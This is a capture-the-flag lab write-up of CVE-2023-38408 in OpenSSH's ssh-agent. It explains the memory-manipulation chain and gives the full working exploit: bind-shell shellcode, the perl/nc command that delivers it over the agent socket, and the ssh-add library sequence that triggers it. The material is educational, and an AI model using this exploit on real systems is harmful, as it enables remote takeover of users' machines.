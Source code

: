 # CVE-2023-38408

**Room Link:** [https://tryhackme.com/r/room/cve202338408](https://tryhackme.com/r/room/cve202338408)

## Background Info

Initially, ssh-agent allowed loading any shared library without filtering, leading to security concerns. In response to CVE-2016-10009, an allow-list (`/usr/lib*/,/usr/local/lib/` by default) was added to limit library loading. However, it is possible to abuse the side effects of the library's constructors (`dlopen`) and destructors (`dlclose`) to manipulate memory and control the program flow.

Code execution can be achieved by making the stack executable, registering a signal handler for `SIGSEGV` and manipulating its code, replacing the signal handler's code with code from another library, triggering a `SIGSEGV`, and replacing his handler's code to finally jump into the stack where the shellcode is stored.

The following paragraphs will present the detailed steps:

**1. Making the Stack Executable:**

Leveraging `dlopen()` to load one of the libraries grants the ability to make the stack memory region (specifically the target process `ssh-pkcs11-helper`'s stack) executable. This allows bypassing the usual protection against executing code on the stack.

**2. Copy the shellcode to the stack:**

Once the shellcode is generated, typically using tools like Metasploit, it can be copied to the stack memory using the socket generated from the SSH connection. The shellcode is also combined with a `NOP sled` which is a sequence of No-Operation assembly instructions. The reason why is to provide a larger target for the program execution flow to land on during the gadget execution.\


To verify whether the process has the desired executable flag, you can use the following commands in dbg, a Linux debugger. You can repeat the next few gdb commands once you have gained access as alice:\


First, obtain the PID of the process ssh-pkcs11-helper.

1. Attach dbg to the target process using its PID.
2. Use the command info proc mapping to examine the memory mappings of the process.
3. Look for the memory region corresponding to the stack, and check its flags, marked as rwx.\


**Terminal**

```shell-session
alice@workstation:~$ ps -aux | grep pkcs11-helperalice
1522 0.0 0.2 7788 5520 ? S 09:22 0:00 /usr/lib/openssh/ssh-pkcs11-helper
alice@workstation:~$ sudo gdb -p 1522
[snip]
29 ../sysdeps/unix/sysv/linux/poll.c: No such file or directory. (gdb) info proc mappings process 1522 Mapped address spaces:
Start Addr End Addr Size Offset Perms objfile
[snip]
0x7ffc7a83b000 0x7ffc7a85c000 0x21000 0x0 rwxp
[stack]
0x7ffc7a9df000 0x7ffc7a9e3000 0x4000 0x0 r--p
[vvar]
0x7ffc7a9e3000 0x7ffc7a9e5000 0x2000 0x0 r-xp
[vdso]
0xffffffffff600000 0xffffffffff601000 0x1000 0x0 --xp 
[snip]
```

Using gdb, you can verify whether the stack has the shellcode loaded by inspecting its content.\


Regarding the command `$rsp+10100`, it is an expression that references a specific memory location relative to the stack pointer (`$rsp`). In this case, `$rsp+10100` points to the memory location located 10100 bytes above the stack pointer.\


Observe that it contains a series of NOP (No Operation) instructions followed by the start of the shellcode: `0x31 0xc0 0x48 0x31 0xc0 0xff 0x48`

**Terminal**

```shell-session
(gdb) x/100xgb $rsp+10100
0x7ffc7a85994c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859954: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85995c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859964: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85996c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859974: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85997c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859984: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85998c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859994: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85999c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a8599a4: 0x90 0x90 0x90 0x90 0x90 0x48 0x31 0xc0
0x7ffc7a8599ac: 0x48 0x31 0xff 0x48
```

\


**3. Registering a Signal Handler:**

To successfully execute arbitrary code within the exploit, a custom signal handler must be registered for the `SIGSEGV` signal. This signal, known as a Segmentation Fault, is triggered when a program attempts to access an invalid memory address. By registering the signal handler, the exploit gains the ability to define a user-defined function that will be executed whenever the `SIGSEGV` signal occurs.

**4. Replacing the Signal Handler's Code:**

At this stage, the exploit leverages the technique of side-loading another library to replace the current signal handler's code with an alternative code segment that will jump to the stack where the shellcode is stored.

To ensure that the code segments of this new library remain mapped in memory even after `dlclose()` is invoked, the library must be marked with the "`Nodelete`" attribute. Ordinarily, when `dlclose()` is called to close a shared library, the library's code segments are unloaded from memory, and any associated resources are released. However, by utilizing the "`Nodelete`" attribute, the attacker prevents the code segments from being unloaded, effectively preserving their existence in memory beyond the `dlclose()` operation. This ensures that the replacement code, responsible for jumping to the shellcode in the stack, remains accessible and functional throughout the exploit's execution.

**5. Triggering SIGSEGV:**

By employing yet another library, the attacker intentionally triggers a `SIGSEGV` signal, which prompts the kernel to execute the custom signal handler previously registered. This strategic step is a critical part of the exploit's progression.

Upon receiving the `SIGSEGV` signal, the kernel recognizes that an invalid memory access has occurred and proceeds to invoke the custom signal handler rather than terminate the program abruptly. By doing so, the attacker seizes the opportunity to manipulate the program's execution and steer it toward the injected malicious code located within the NOP sled.

**6. Executing the Replacement Code:**

By achieving this precise jump into the executable stack, the exploit ensures that the program's execution is directed toward the specific memory location where the shellcode resides.&#x20;



## Exploitation

In this task, we will delve into running the exploit and gaining a more practical understanding of its functionality.\


For this particular scenario, we will be working with two machines: the workstation (a vulnerable instance of Ubuntu 21.04) and another server which is under the attacker's control (Attackbox). To simulate the vulnerable instance, a connection between the workstation and the server has been employed in the previous task. There is a user alice who is connected from the workstation to the attacker using SSH agent forwarding. Alice does this by executing the following commands (so you do not have to):

**Kali**

```
echo /tmp/ssh-*/agent.*
export SSH_AUTH_SOCK=/tmp/ssh-m0jgGsq7Jm/agent.3921
ssh-add -s /usr/lib/systemd/boot/efi/linuxx64.elf.stub
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To copy the shellcode into the process using the SSH socket, you need to follow these steps:

1. Obtain the `PID` of the SSH agent running on the remote attacker machine.
2. Once you have the socket, use netcat (`nc`) to transfer the shellcode to the agent's memory (workstation).&#x20;
3. After starting the transfer, wait for a few seconds to ensure the shellcode is fully copied into the target memory.
4. Finally, press Ctrl-C to stop the netcat transfer once the shellcode is successfully placed in the agent's memory.

Note that the next command will not use `ssh-add`. Because the malicious payload is around 10KB passphrase and ssh-add has a limit of 1KB.

**Kali**

```
SHELLCODE=$'\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05' 


(perl -e 'print "\0\0\x27\xbf\x14\0\0\0\x10/usr/lib/modules\0\0\x27\xa6" . "\x90" x 10000'; echo -n "$SHELLCODE") | nc -U "$SSH_AUTH_SOCK"

^C
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The next step to the exploitation process is register the signal handler for the Segmentation Fault (`SIGSEGV`) signal.

**Kali**

```
ssh-add -s /usr/lib/titan/libttcn3-rt2-dynamic.so
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After successfully registering the custom signal handler for `SIGSEGV`, the next crucial step in the exploitation process is to replace the original signal handler routine with a carefully chosen gadget. This gadget will serve as a means to redirect the program's execution flow and jump into the stack when the SIGSEGV signal is triggered.

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libKF5SonnetUi.so.5.92.0
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally, by intentionally causing a segmentation fault, the `SIGSEGV` event can be triggered, executing the shellcode:

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libns3.35-wave.so.0.0.0
```

**Victim**

```
nc localhost 31337
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
